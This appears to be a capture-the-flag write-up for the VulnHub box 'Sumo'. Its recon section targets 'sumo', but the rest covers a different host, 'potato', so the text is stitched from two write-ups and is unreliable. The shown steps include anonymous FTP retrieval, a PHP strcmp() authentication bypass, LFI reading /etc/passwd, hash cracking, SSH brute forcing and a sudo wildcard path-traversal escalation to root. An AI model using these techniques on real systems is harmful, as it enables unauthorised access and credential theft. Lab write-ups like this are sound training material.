





---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Sumo

[Sumo](https://www.vulnhub.com/entry/sumo-1,480/) is an <mark style="color:green;">easy-rated</mark> box where&#x20;

<table><thead><tr><th width="94" align="center">Step</th><th>Action</th><th width="186">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="center">1</td><td>Port scanning</td><td><code>nmap</code></td><td>Source code</td></tr><tr><td align="center">2</td><td>Researching <code>strcmp()</code></td><td>Browser</td><td>Authentication bypass</td></tr><tr><td align="center">3</td><td>Web server enumeration</td><td>Burp Suite</td><td><a data-footnote-ref href="#user-content-fn-1">LFI</a>, credentials</td></tr><tr><td align="center">4</td><td>System enumeration</td><td><a data-footnote-ref href="#user-content-fn-2">LotL</a></td><td>Root access</td></tr></tbody></table>

## Recon

```bash
$ sudo nmap -T4 --min-rate 10000 -open -p- -A sumo

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
```


```bash
$ whatweb http://sumo

http://sumo [200 OK] Apache[2.2.22], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.2.22 (Ubuntu)], IP[192.168.221.87]
```



```bash
$ ffuf -u http://sumo/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -ic -c -ac -e .txt,.php

________________________________________________

```


## Local.txt

Let's start with downloading the two files from the FTP server.

```bash
$ ftp anonymous@potato -P 2112
Connected to potato.
220 ProFTPD Server (Debian) [::ffff:192.168.155.101]
331 Anonymous login ok, send your complete email address as your password
Password:
230-Welcome, archive user anonymous@192.168.45.171 !
230-
230-The local time is: Sun Sep 01 16:06:32 2024
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||64688|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp> mget *
mget welcome.msg [anpqy?]?
229 Entering Extended Passive Mode (|||63914|)
150 Opening BINARY mode data connection for welcome.msg (54 bytes)
    54        2.14 MiB/s
226 Transfer complete
54 bytes received in 00:00 (1.31 KiB/s)
mget index.php.bak [anpqy?]?
229 Entering Extended Passive Mode (|||57035|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901       12.27 MiB/s
226 Transfer complete
901 bytes received in 00:00 (21.97 KiB/s)
```

The content of `welcome.msg` does not help us much, but the `index.php.bak` contains the HTML code of the login page including plaintext credentials as well as the logic behind the cookie creation.


```html
<html>
<head></head>
<body>

<?php

$pass= "potato"; //note Change this password regularly

if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>


  <form action="index.php?login=1" method="POST">
                <h1>Login</h1>
                <label><b>User:</b></label>
                <input type="text" name="username" required>
                </br>
                <label><b>Password:</b></label>
                <input type="password" name="password" required>
                </br>
                <input type="submit" id='submit' value='Login' >
  </form>
</body>
</html>
```


Unfortunately, the credentials found do not work, but we can see a `login=1` parameter which is interesting (Figure 1). Performing a BFA against `login`'s value does not leads us anywhere.

<figure><figcaption><p>Figure 1: A failed login attempt.</p></figcaption></figure>

Inspecting the code snippet that creates the cookie, we see that the cookie's name is `pass`, its value `potato`, and has its expiration date set to one year. We can try to use it for bypassing authentication, but it does not work (Figure 2).

<figure><figcaption><p>Figure 2: A failed authentication bypass attempt.</p></figcaption></figure>

Searching information about the PHP [`strcmp()`](https://www.w3schools.com/php/func\_string\_strcmp.asp) function that is used for the login functionality, we find out that this is used to compare two strings. Further research reveals a [blogpost](https://www.doyler.net/security-not-included/bypassing-php-strcmp-abctf2016) that has an authentication bypass for `strcmp()`:

> If I set `$_GET[‘password’]` equal to an empty array, then `strcmp` would return a `NULL`. Due to some inherent weaknesses in PHP’s comparisons, `NULL == 0` will return `true` ([more info](http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/)).

Based on the above information, trying setting the password to an empty array (`[]=""`) gets us in (Figure 3).

<figure><figcaption><p>Figure 3: Bypassing authentication via exploiting the <code>strcmp()</code> PHP function.</p></figcaption></figure>

The admin dashboard (`/admin/dashboard.php`) contains a functionality for retrieving log files (`?page=log`) which uses the `file` parameter (Figure 4).

<figure><figcaption><p>Figure 4: Exploring the admin dashboard's functionality.</p></figcaption></figure>

Testing the `file` parameter for LFI[^3] comes back positive (Figure 5) and it reveals that there are two users on the box: `webadmin` and `florianges`. The `local.txt` flag can be found under `webadmin`'s home directory.

<figure><figcaption><p>Figure 5: Testing the <code>file</code> parameter for a LFI flaw.</p></figcaption></figure>

The `webadmin`'s entry contains its hash (Figure 6) which we can try and crack with `hashcat`.

<figure><figcaption><p>Figure 6: Inspecting the <code>/etc/passwd</code> file.</p></figcaption></figure>


```bash
$ cat webadmin_hash
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/

$ hashcat webadmin_hash /usr/share/wordlists/rockyou.txt --username
<SNIP>
$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:dragon
<SNIP>
```


Interestingly enough, performing a BFA against SSH with the default wordlists comes back with the credentials we just found.


```bash
$ nmap -p 22 --script ssh-brute potato
<SNIP>
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute:
|   Accounts:
|     webadmin:dragon - Valid credentials
|_  Statistics: Performed 2552 guesses in 603 seconds, average tps: 4.2
```


## Proof.txt

Logging into SSH and checking its `sudo` permissions reveals that the `nice` binary can be run with elevated permissions with any script located at `/notes` as its argument. Unfortunately, we don't have `write` permissions on the `/notes` directory.


```bash
$ ssh webadmin@potato
webadmin@potato's password:
<SNIP>
webadmin@serv:~$ id
uid=1001(webadmin) gid=1001(webadmin) groups=1001(webadmin)
webadmin@serv:~$ sudo -l
[sudo] password for webadmin:
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
    
webadmin@serv:~$ ls -ld /notes
drwxr-xr-x 2 root root 4096 Aug  2  2020 /notes
```


Due to the wildcard (`*`) used in the command, we can use the directory traversal pattern (`../`) and execute a script of our choice.


```bash
webadmin@serv:~$ echo "cat /root/proof.txt" > root_flag.sh
webadmin@serv:~$ sudo /bin/nice /notes/../../home/webadmin/root_flag.sh
86f<REDACTED>f1e
```


[^1]: Local File Inclusion

[^2]: Living of the Land

[^3]: Local File Inclusion
